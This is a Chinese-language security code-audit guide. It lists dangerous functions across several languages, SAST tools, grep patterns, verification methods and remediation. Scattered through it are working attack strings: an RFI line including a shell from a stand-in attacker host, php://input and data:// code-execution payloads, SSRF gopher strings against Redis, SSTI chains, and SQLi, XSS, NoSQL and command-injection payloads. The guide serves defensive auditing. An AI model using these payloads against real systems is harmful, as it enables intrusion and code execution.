

# 代码审计全技巧

> 从源代安全评审到自动化审计，全面掌握代码审计方法论

---

## 一、代码审计基础

### 1.1 审计流程



### 1.2 审计方法论

| 方法 | 描述 | 适用场景 |
|:----|:-----|:---------|
| 自顶向下 | 从入口→功能→底层 | 系统了解业务逻辑 |
| 自底向上 | 从底层函数→调用链 | 挖掘底层漏洞 |
| 危险函数搜索 | 搜索危险函数调用 | 快速发现高危漏洞 |
| 数据流分析 | 追踪用户输入流向 | 注入类漏洞 |
| 控制流分析 | 追踪逻辑执行路径 | 逻辑漏洞/越权 |
| 差异对比 | 对比新旧版本变更 | 补丁分析/新漏洞发现 |

### 1.3 审计维度

| 维度 | 内容 | 工具/方法 |
|:-----|:-----|:----------|
| 输入验证 | SQL/XSS/命令注入 | 正则/危险函数 |
| 认证与会话 | 弱密码/Session固定 | 代码审查 |
| 授权 | 越权/IDOR | 权限检查位置 |
| 加密 | 弱算法/硬编码密钥 | 搜索算法库调用 |
| 配置 | 调试模式/默认密码 | 配置文件检查 |
| 文件操作 | 路径遍历/文件包含 | 文件函数参数追踪 |
| 业务逻辑 | 流程绕过/重复操作 | 流程图分析 |
| 第三方组件 | 已知漏洞/过时库 | Dependency Check |

---

## 二、PHP代码审计

### 2.1 危险函数一览

```php
// === 文件包含 ===
include($user_input);       // 文件包含
include_once($user_input);
require($user_input);
require_once($user_input);

// === 文件操作 ===
file_get_contents($url);    // SSRF/文件读取
file_put_contents($file, $data); // 文件写入
unlink($file);              // 文件删除
rename($old, $new);         // 文件移动
copy($src, $dst);           // 文件复制
fopen($file, "w");          // 文件打开
move_uploaded_file($tmp, $dst); // 文件上传

// === 命令执行 ===
system($cmd);               // 执行系统命令
exec($cmd, $output);
shell_exec($cmd);
passthru($cmd);
popen($cmd, "r");
proc_open($cmd, ...);
\`$cmd\`;                     // 反引号执行
pcntl_exec($cmd);
// eval类
eval($code);                // PHP代码执行
assert($code);
create_function($args, $code);
call_user_func($func, $param);
call_user_func_array($func, $params);
array_map($func, $arr);
preg_replace($pattern, $replacement, $subject); // /e模式
usort($arr, $func);

// === 数据库操作 ===
mysqli_query($conn, $sql);  // SQL注入(未参数化)
mysqli_execute($conn, $sql);
PDO::query($sql);
PDO::exec($sql);

// === 输出 ===
echo $user_input;            // XSS
print $user_input;
printf($format, $input);    // 格式化字符串

// === 反序列化 ===
unserialize($data);          // 反序列化漏洞
// === SSRF ===
file_get_contents($url);
curl_exec($ch);              // cURL请求
```

### 2.2 变量覆盖

```php
// extract() - 变量覆盖
extract($_GET);  // ?flag=1 → $flag = 1
// parse_str() - 变量覆盖
parse_str($_SERVER['QUERY_STRING']);
// import_request_variables() (已移除)
// $$ 动态变量
$a = "cmd";
$$a = "whoami";  // $cmd = "whoami"
```

### 2.3 文件包含链

```php
// 本地文件包含 (LFI)
include "pages/" . $_GET['page'];  
// ?page=../../../etc/passwd
// ?page=php://filter/convert.base64-encode/resource=config.php
// ?page=php://input (POST: <?php system('id'); ?>)
// ?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==

// 远程文件包含 (RFI)
include $_GET['file'];
// ?file=http://attacker.com/shell.txt

// 文件包含 -> 代码执行
// 日志注入: ?page=/var/log/apache/access.log
// 会话文件: ?page=/tmp/sess_XXXXX
// /proc/self/environ
// phpinfo()临时文件竞态
```

### 2.4 SSRF利用

```php
// SSRF场景
$url = $_GET['url'];
$content = file_get_contents($url);   // SSRF
$ch = curl_init($url);                // SSRF
curl_exec($ch);

// 利用
// 内网探测
?url=http://127.0.0.1:8080/admin
?url=file:///etc/passwd
?url=gopher://127.0.0.1:6379/_*2%0d%0a...  // Redis未授权
?url=dict://127.0.0.1:3306/info              // 端口指纹
```

### 2.5 反序列化

```php
// 反序列化 POP链
class Example {
    public $cmd;
    public function __destruct() {
        system($this->cmd);
    }
}
$data = unserialize($_GET['data']);  // 危险

// 构造payload
$obj = new Example();
$obj->cmd = "whoami";
echo serialize($obj);
// O:7:"Example":1:{s:3:"cmd";s:5:"whoami";}
```

---

## 三、Java代码审计

### 3.1 关键类与方法

```java
// === SQL注入 ===
// MyBatis
@Select("SELECT * FROM users WHERE id = ${id}")  // ❌ 拼接
@Select("SELECT * FROM users WHERE id = #{id}")  // ✅ 参数化

// JDBC
Statement stmt = conn.createStatement();
stmt.executeQuery("SELECT * FROM users WHERE id = " + id);  // ❌

PreparedStatement pstmt = conn.prepareStatement("SELECT * FROM users WHERE id = ?");
pstmt.setString(1, id);  // ✅

// Hibernate
session.createQuery("FROM User WHERE name = '" + name + "'");  // ❌ HQL注入

// JPA
@Query(value = "SELECT * FROM users WHERE name = ?1", nativeQuery = true)  // ❌ native

// === XSS ===
// JSP中直接输出
<%= request.getParameter("name") %>  // ❌ XSS

// === 命令执行 ===
Runtime.getRuntime().exec(cmd);      // 命令注入
Runtime.getRuntime().exec(new String[]{"cmd", "/c", cmd});  // 略安全

// === 文件操作 ===
new FileInputStream(path);           // 路径遍历
new FileOutputStream(path);

// === SSRF ===
new URL(url).openConnection();       // SSRF
URLConnection conn = new URL(url).openConnection();

// === 反序列化 ===
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(file));
ois.readObject();                     // 反序列化漏洞

// === XXE ===
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
DocumentBuilder builder = factory.newDocumentBuilder();
Document doc = builder.parse(new InputSource(new StringReader(xml)));  // XXE
```

### 3.2 Spring安全审计

```java
// === SpEL注入 ===
@Value("#{${user.input}}")             // SpEL注入
ExpressionParser parser = new SpelExpressionParser();
parser.parseExpression(userInput).getValue();

// === 权限校验 ===
@PreAuthorize("hasRole('ADMIN')")       // ✅ 正确
// 缺失 @PreAuthorize/@PostAuthorize    // ❌ 越权

// === 参数绑定 ===
@RequestParam String name               // 基本类型
@ModelAttribute User user               // 对象绑定 - 批量赋值
// 防止批量赋值添加不需要的属性

// === CSRF ===
// Spring Security默认开启CSRF保护
// 检查是否被禁用: http.csrf().disable()

// === CORS ===
@CrossOrigin(origins = "*")             // ❌ 任意跨域
```

### 3.3 MyBatis审计

```xml
<!-- 安全: #{} 参数化 -->
<select id="getUser" resultType="User">
    SELECT * FROM users WHERE id = #{id}
</select>

<!-- 危险: ${} 拼接 -->
<select id="search" resultType="User">
    SELECT * FROM users WHERE name LIKE '%${keyword}%'  <!-- ❌ 注入 -->
</select>

<!-- Order By 注入 -->
<select id="list" resultType="User">
    SELECT * FROM users ORDER BY ${sort}  <!-- ❌ 注入 -->
</select>

<!-- In 注入 -->
<select id="getUsers" resultType="User">
    SELECT * FROM users WHERE id IN (${ids})  <!-- ❌ 注入 -->
</select>
```

### 3.4 反序列化链

```java
// CommonsCollections1
// CommonsCollections2
// CommonsCollections3
// CommonsCollections4
// CommonsCollections5
// CommonsCollections6
// CommonsBeanutils1
// Jdk7u21
// FastJson
// Jackson
// XStream

// 修复
// - 升级库版本
// - 使用白名单验证
// - 使用ObjectInputFilter (Java 9+)
```

---

## 四、Python代码审计

### 4.1 危险函数

```python
# === SQL注入 ===
# Django ORM (安全)
User.objects.filter(username=user_input)  # ✅

# 原始SQL (危险)
cursor.execute("SELECT * FROM users WHERE id = %s" % id)  # ❌
cursor.execute(f"SELECT * FROM users WHERE id = {id}")    # ❌

# SQLAlchemy
session.execute(text(f"SELECT * FROM users WHERE id = {id}"))  # ❌

# === 命令执行 ===
os.system(cmd)                    # ❌
os.popen(cmd)
subprocess.Popen(cmd, shell=True) # ❌ shell=True危险
eval(user_input)                  # ❌ 代码执行
exec(user_input)                  # ❌ 代码执行
compile(user_input, '', 'exec')   # ❌
__import__(user_input)            # ❌ 动态导入

# === 文件操作 ===
open(file_path, 'r').read()       # 路径遍历
__import__('os').system('ls')     # 沙箱逃逸

# === 模板注入 (SSTI) ===
# Flask/Jinja2
Template(user_input).render()     # ❌ SSTI
render_template_string(user_input) # ❌ SSTI

# === 反序列化 ===
pickle.loads(data)                # ❌ 反序列化RCE
yaml.load(data)                   # ❌ YAML反序列化

# === SSRF ===
requests.get(url)                 # SSRF
urllib.request.urlopen(url)

# === XXE ===
from lxml import etree
etree.fromstring(xml)             # XXE (默认解析外部实体)
```

### 4.2 Flask/Jinja2 SSTI

```python
# SSTI测试
{{7*7}}
{{''.__class__.__mro__[1].__subclasses__()}}
{{''.__class__.__mro__[1].__subclasses__()[XXX].__init__.__globals__['os'].popen('id').read()}}

# 利用链
''.__class__.__mro__[1].__subclasses__()
# 找到 subprocess.Popen
[].__class__.__base__.__subclasses__()
# 找到 os.system
().__class__.__bases__[0].__subclasses__()
```

### 4.3 Django安全

```python
# settings.py 检查
DEBUG = True                    # ❌ 调试模式泄露
SECRET_KEY = 'hardcoded_key'   # ❌ 硬编码密钥
ALLOWED_HOSTS = ['*']          # ❌ 任意Host

# 视图函数
@csrf_exempt                    # ❌ CSRF保护关闭
def upload(request):
    pass

# 模板
{{ user_input | safe }}         # ❌ XSS
            # ❌ 自动转义关闭

# 文件上传
request.FILES['file']           # 检查文件名/类型/大小
```

---

## 五、JavaScript/Node.js审计

### 5.1 危险函数

```javascript
// === XSS ===
document.write(userInput);          // ❌
element.innerHTML = userInput;      // ❌
element.outerHTML = userInput;      // ❌

// jQuery
$('div').html(userInput);           // ❌
$('div').append(userInput);         // ❌

// eval系列
eval(userInput);                    // ❌
new Function(userInput);            // ❌
setTimeout(userInput, 100);         // ❌
setInterval(userInput, 100);        // ❌

// === NoSQL注入 (MongoDB) ===
db.users.find({username: req.body.username})  // { $ne: '' } 绕过
db.users.find({$where: this.password == '1'}) // JS注入

// === 原型污染 ===
_.merge({}, JSON.parse(body));      // ❌ 原型污染
$.extend(true, {}, userInput);      // ❌

// === 路径遍历 ===
fs.readFile(userPath);              // ❌
require(userPath);                  // ❌ 动态require

// === 命令注入 ===
child_process.exec(cmd);            // ❌
child_process.execSync(cmd);        // ❌
```

### 5.2 Express安全

```javascript
// 安全中间件
const helmet = require('helmet');
app.use(helmet());                  // 安全头

// CSRF保护
const csrf = require('csurf');
app.use(csrf());

// 速率限制
const rateLimit = require('express-rate-limit');
app.use('/api', rateLimit({
    windowMs: 15 * 60 * 1000,
    max: 100
}));

// 参数验证
const { body, validationResult } = require('express-validator');
app.post('/user', [
    body('email').isEmail(),
    body('password').isLength({ min: 5 })
], (req, res) => {
    const errors = validationResult(req);
    if (!errors.isEmpty()) return res.status(400).json({ errors });
});
```

### 5.3 NoSQL注入

```javascript
// MongoDB注入测试
// 正常: ?username=admin&password=pass123
// 注入:
?username[$ne]=null&password[$ne]=null
?username[$gt]=&password[$gt]=
?username=admin&password[$regex]=.*
?username=admin&password[$where]=1==1

// 绕过
// {$gt: ''} 匹配所有
// {$ne: ''} 匹配所有非空
// {$regex: '.*'} 正则匹配
```

---

## 六、C/C++代码审计

### 6.1 内存安全

```c
// === 缓冲区溢出 ===
char buf[10];
strcpy(buf, user_input);             // ❌ 溢出
gets(buf);                           // ❌ 溢出
sprintf(buf, "%s", user_input);      // ❌ 溢出
scanf("%s", buf);                    // ❌ 溢出

// 安全版本
strncpy(buf, user_input, sizeof(buf) - 1);
snprintf(buf, sizeof(buf), "%s", user_input);

// === 格式化字符串 ===
printf(user_input);                  // ❌ 格式化字符串漏洞
fprintf(stderr, user_input);         // ❌
sprintf(buf, user_input);            // ❌

// 安全
printf("%s", user_input);

// === 整数溢出 ===
int size = user_input;
char *buf = malloc(size);            // ❌ 整数溢出
memcpy(buf, src, size);             // 堆溢出

// === 释放后使用 (Use-After-Free) ===
free(ptr);
// ...
ptr->field = value;                  // ❌ UAF

// === 双重释放 ===
free(ptr);
free(ptr);                           // ❌ Double Free

// === 命令注入 ===
system(user_input);                  // ❌
popen(user_input, "r");             // ❌
```

### 6.2 常见模式

```c
// === 栈保护 ===
// 编译选项
-fstack-protector-strong
-fstack-clash-protection
-fcf-protection

// === ASLR ===
// 位置无关可执行
-fPIE -pie

// === 沙箱 ===
// seccomp
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
```

---

## 七、自动化审计工具

### 7.1 SAST工具

| 工具 | 语言 | 特点 |
|:-----|:-----|:-----|
| SonarQube | 多语言 | 综合代码质量+安全 |
| Fortify | 多语言 | 商业/深度分析 |
| Checkmarx | 多语言 | SAST+SCA |
| Veracode | 多语言 | 云SAST |
| Semgrep | 多语言 | 开源/可定制规则 |
| CodeQL | 多语言 | GitHub/查询式 |
| RIPS | PHP | 专用PHP |
| PMD | Java | 静态分析 |
| FindSecBugs | Java | FindBugs安全插件 |
| Bandit | Python | Python安全审计 |
| Brakeman | Ruby | Rails安全审计 |
| NodeJSScan | Node.js | Node.js安全 |

### 7.2 配置示例

```yaml
# Semgrep规则
rules:
  - id: sql-injection
    patterns:
      - pattern: |
          $DB.query("...$INPUT...")
    message: "SQL注入风险"
    languages: [python]
    severity: ERROR

  - id: command-injection
    patterns:
      - pattern: |
          subprocess.Popen($INPUT, shell=True)
    message: "命令注入风险"
    languages: [python]
    severity: ERROR
```

### 7.3 运行审计工具

```bash
# SonarQube
sonar-scanner \
  -Dsonar.projectKey=myapp \
  -Dsonar.sources=. \
  -Dsonar.host.url=http://localhost:9000 \
  -Dsonar.login=token

# Semgrep
semgrep --config=auto .
semgrep --config=p/security-audit .
semgrep --config=./my-rules.yaml .

# CodeQL
codeql database create ./db --language=python
codeql database analyze ./db codeql/python-queries --format=sarif-latest --output=results.sarif

# Bandit
bandit -r ./app -f json -o bandit.json
bandit -r ./app -lll  # 仅高严重性

# Brakeman
brakeman -o brakeman.html

# FindSecBugs
findsecbugs -progress -html -output report.html app.jar
```

---

## 八、人工审计技巧

### 8.1 加速搜索

```bash
# 危险函数搜索
grep -rn "system\|exec\|popen\|passthru\|shell_exec" --include="*.php" .
grep -rn "Runtime.getRuntime\|ProcessBuilder" --include="*.java" .
grep -rn "eval\|exec\|compile" --include="*.py" .
grep -rn "innerHTML\|document.write\|eval(" --include="*.js" .

# 文件操作
grep -rn "fopen\|file_get_contents\|include\|require" --include="*.php" .
grep -rn "FileInputStream\|FileOutputStream\|new File" --include="*.java" .

# SQL查询
grep -rn "SELECT\|INSERT\|UPDATE\|DELETE" --include="*.php" .
grep -rn "\$\{" --include="*.xml" .  # MyBatis ${}
grep -rn "createQuery\|createNativeQuery" --include="*.java" .

# 配置
grep -rn "password\|secret\|key\|token" --include="*.{ini,conf,properties,yaml,yml,env}" .
grep -rn "DEBUG\|debug.*true" --include="*.{py,java,php,js}" .

# 敏感信息
grep -rn "TODO\|FIXME\|HACK\|XXX\|BUG" --include="*.{php,java,py,js}" .
```

### 8.2 代码量优先

```
项目类型         → 优先审计模块
认证/登录        → SQL注入/认证绕过
文件上传         → 任意文件上传/路径遍历
文件下载         → 路径遍历/SSRF
用户输入输出     → XSS/注入
支付功能         → 逻辑漏洞/整数溢出
API接口          → 越权/参数篡改
数据处理         → 反序列化/XXE
第三方集成       → SSRF/命令注入
```

### 8.3 常见绕过

```php
# WAF/过滤器绕过
// 编码绕过
$_GET['id'] = 1+union+select...
$_GET['id'] = 1%20union%20select...
$_GET['id'] = 1/*!union*/select...

// 参数污染
?id=1&id=2&id=3  // PHP取最后一个

// 类型混淆
if ($_GET['id'] == 1)  // "1abc" == 1 → true
```

---

## 九、漏洞验证

### 9.1 SQL注入验证

```bash
# 时间盲注
' AND SLEEP(5)--
' AND BENCHMARK(10000000,MD5(1))--

# 报错注入
' AND extractvalue(1,concat(0x7e,database()))--
' AND updatexml(1,concat(0x7e,database()),1)--

# 联合查询
' UNION SELECT 1,2,3,4--
```

### 9.2 XSS验证

```html
<script>alert(1)</script>

<svg onload=alert(1)>
" onclick=alert(1)
javascript:alert(1)
```

### 9.3 命令执行验证

```bash
; id
| id
|| id
& id
&& id
`id`
$(id)
| base64
```

---

## 十、审计报告

### 10.1 报告结构

```
1. 项目概述
2. 审计范围
3. 审计方法
4. 漏洞汇总
   - 高危漏洞
   - 中危漏洞
   - 低危漏洞
5. 漏洞详情(每个漏洞)
   - 漏洞描述
   - 影响版本/文件
   - 利用条件
   - PoC/复现步骤
   - 影响分析
   - 修复建议
   - 参考链接
6. 安全建议
7. 附录
```

### 10.2 漏洞评级

| 级别 | 定义 | 响应时间 |
|:-----|:-----|:---------|
| 严重 | 远程代码执行/未授权访问 | 24h内修复 |
| 高危 | SQL注入/越权 | 3天内修复 |
| 中危 | XSS/SSRF/信息泄露 | 7天内修复 |
| 低危 | 配置问题/信息泄露 | 14天内修复 |

---

## 十一、修复建议

### 11.1 输入验证

```php
// 白名单验证
$allowed = ['id', 'name', 'email'];
$sort = in_array($_GET['sort'], $allowed) ? $_GET['sort'] : 'id';

// 类型检查
$id = (int)$_GET['id'];  // 强制整数

// 参数化查询
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$id]);
```

### 11.2 输出编码

```php
// HTML编码
htmlspecialchars($data, ENT_QUOTES, 'UTF-8');

// JavaScript编码
json_encode($data);

// URL编码
urlencode($data);
```

### 11.3 安全配置

```php
// PHP
display_errors = Off
allow_url_include = Off
open_basedir = /var/www/html
disable_functions = exec,system,passthru,shell_exec,popen,proc_open

// Java
// Spring Security, CSRF, CORS配置
```

---

## 十二、速查总表

### 12.1 语言危险函数

| 语言 | 危险函数 |
|:-----|:---------|
| PHP | `eval, system, exec, include, unserialize, preg_replace(/e)` |
| Java | `Runtime.exec, ProcessBuilder, readObject, DriverManager.getConnection` |
| Python | `eval, exec, os.system, subprocess.Popen(shell=True), pickle.loads` |
| JS/Node | `eval, new Function, child_process.exec, innerHTML` |
| C/C++ | `strcpy, gets, sprintf, printf(user), system` |

### 12.2 工具速查

| 场景 | 工具 | 命令 |
|:-----|:-----|:------|
| PHP审计 | RIPS/SonarQube | `rips --path ./src` |
| Java审计 | FindSecBugs | `findsecbugs -progress -html app.jar` |
| Python审计 | Bandit | `bandit -r ./src` |
| JS审计 | NodeJSScan | `nodejsscan -p ./src` |
| 通用SAST | Semgrep | `semgrep --config=auto ./src` |
| SCA | OWASP DC | `dependency-check --scan ./` |
| 代码质量 | SonarQube | `sonar-scanner` |

### 12.3 推荐资源

| 资源 | 链接 |
|:-----|:-----|
| OWASP Code Review Guide | owasp.org |
| PHP Security Guide | phpsadness.com |
| Java Secure Coding | oracle.com |
| Semgrep Rules | semgrep.dev |
| CWE Database | cwe.mitre.org |

---

> **参考资源**
>
> - OWASP Code Review Guide
> - OWASP Top 10 - Code Review
> - SEI CERT Coding Standards
> - SANS CWE Top 25
> - Web Application Hacker's Handbook

[OWASP Top 10 速查表](08-owasp-top10.md)